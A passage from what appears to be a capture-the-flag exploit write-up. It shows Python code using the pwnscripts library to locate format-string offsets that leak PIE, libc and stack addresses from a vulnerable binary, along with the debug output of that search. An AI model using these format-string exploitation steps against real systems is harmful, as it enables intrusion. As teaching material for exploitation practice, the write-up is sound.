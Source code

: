 Implementing this is easy with `pwnscripts`. We'll start by gathering offsets for `printf()`:
```python
@context.quiet
def printf(s: bytes):
    r,rtr = start(s)
    r.close()   # prevent xinetd from booting us
    return rtr
PIE_ret = 0xE9F # the constant 1.5 lowest bytes for the PIE address we're leaking
PIE_offset  = fsb.find_offset.PIE(printf, offset=PIE_ret)
money_offset= fsb.find_offset.PIE(printf, offset=0x20)  # this should correspond with the calloc pointer to `player`
libc_offset = fsb.find_offset.libc(printf, offset=context.libc.symbols['__libc_start_main_ret']&0xfff)
stack_offset= libc_offset+2
log.info('important printf() offsets: %d %d %d' % (money_offset, libc_offset, PIE_offset))
```
Running this (with `context.log_level = 'debug'`):
```python
[DEBUG] pwnscripts: extracted 0xd
[DEBUG] pwnscripts: extracted 0x560fcd522270
[DEBUG] pwnscripts: extracted 0x55eb02255428
[DEBUG] pwnscripts: extracted -0x1
[DEBUG] pwnscripts: extracted 0x7fff107629e0
[DEBUG] pwnscripts: extracted 0x7ffe8209b540
[DEBUG] pwnscripts: extracted 0x55597a4cce9f
[*] pwnscripts.fsb.find_offset for 'PIE': 11
[DEBUG] pwnscripts: extracted 0xd
[DEBUG] pwnscripts: extracted 0x561a4e1a4270
[DEBUG] pwnscripts: extracted 0x557f2cb32428
[DEBUG] pwnscripts: extracted -0x1
[DEBUG] pwnscripts: extracted 0x7ffe1a30fb10
[DEBUG] pwnscripts: extracted 0x7ffc468d6260
[DEBUG] pwnscripts: extracted 0x55b161816e9f
[DEBUG] pwnscripts: extracted -0x1
[DEBUG] pwnscripts: extracted 0x55c4b535e420
[*] pwnscripts.fsb.find_offset for 'PIE': 13
[DEBUG] pwnscripts: extracted 0xd
[DEBUG] pwnscripts: extracted 0x55d8562f7270
[DEBUG] pwnscripts: extracted 0x55de9b4f4428
[DEBUG] pwnscripts: extracted -0x1
[DEBUG] pwnscripts: extracted 0x7ffdd8503e40
[DEBUG] pwnscripts: extracted 0x7fff355ec1b0
[DEBUG] pwnscripts: extracted 0x55ac42025e9f
[DEBUG] pwnscripts: extracted -0x1
[DEBUG] pwnscripts: extracted 0x55ea72259420
[DEBUG] pwnscripts: extracted -0x1
[DEBUG] pwnscripts: extracted -0x1
[DEBUG] pwnscripts: extracted 0x1
[DEBUG] pwnscripts: extracted -0x1
[DEBUG] pwnscripts: extracted -0x1
[DEBUG] pwnscripts: extracted 0xf25b29d7e24df000
[DEBUG] pwnscripts: extracted 0x7ffd565bdf10
[DEBUG] pwnscripts: extracted -0x1
[DEBUG] pwnscripts: extracted 0x7ffd11d8de40
[DEBUG] pwnscripts: extracted 0x55e63b0560c3
[DEBUG] pwnscripts: extracted 0x558e9746bb00
[DEBUG] pwnscripts: extracted 0x55effdbdd420
[DEBUG] pwnscripts: extracted 0x7ffeaeaf7d50
[DEBUG] pwnscripts: extracted 0x55624eeb41c2
[DEBUG] pwnscripts: extracted 0x5580ccc0e1d0
[DEBUG] pwnscripts: extracted 0x7fa8da2f3840
[*] pwnscripts.fsb.find_offset for 'libc': 29
[*] important printf() offsets: 13 29 11
```